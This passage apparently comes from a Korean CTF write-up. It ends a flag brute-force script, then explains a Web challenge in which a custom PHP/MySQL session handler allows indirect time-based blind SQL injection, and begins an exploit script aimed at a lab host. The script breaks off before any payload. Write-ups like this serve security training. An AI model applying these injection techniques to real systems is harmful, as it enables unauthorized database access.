 ```python
    for j in charset:
        if enc(j) == flag_enc[i]:
            print(f"{chr(j)}, ",end='')
            flags[i].append(chr(j))
    print('')

def bfs(cur):
    if len(cur) == 32:
        h = keccak.new(digest_bits=256)
        h.update(''.join(cur).encode())
        if h.hexdigest() == "eeadbab09606d4ac23d018595e4ebe9a84edc176ed9fb598e505ae47467d8699":
            print(''.join(cur))
            end = time.time()
            print(end-start)
            exit(0)
        return

    for i in flags[len(cur)]:
        bfs(cur+[i])
start = time.time()
bfs(list("hctf{"))
```

### Web
#### fundamental
직접 코딩해준 mysql 기반의 세션 핸들러를 php session handler로 사용하고 있습니다. session write (값 입력) 시 serialization된 값이 db에 저장되게 되는데, $value에 대한 필터링 및 검증이 없기 때문에 session의 key-value를 지정하는 과정에서 session write함수가 호출되므로, in-direct하게 SQL Injection이 발생하게 됩니다. 

특별히 에러가 출력되거나, update문에서 취약점이 발생하기 때문에 값을 확인할 수 있는 방법이 없습니다. 따라서, Side channel attack을 해야하는데, 이 경우 time based sql injection이 가능합니다.

##### ex.py
```py
import requests
from binascii import hexlify
from os import urandom

HOST = "http://local.vuln.live:10000"
TIMEOUT = 1.5
FLAG = "HCTF{"
COOKIE = {"PHPSESSID":"sqrtrev"}

def gen_random_str(length):
    return hexlify(urandom(length)).decode()

def register(username, password):
    conn = requests.post(HOST+"/?mode=register", data={"username":username, "password":password}, cookies=COOKIE)

def login(username, password):
    conn = requests.post(HOST+"/?mode=login", data={"username":username, "password":password}, cookies=COOKIE)

def exp(password):
    global FLAG

    while True:
        if "}" in FLAG:
            break

        for i in range(32, 127):
            query = gen_random_str(4)
```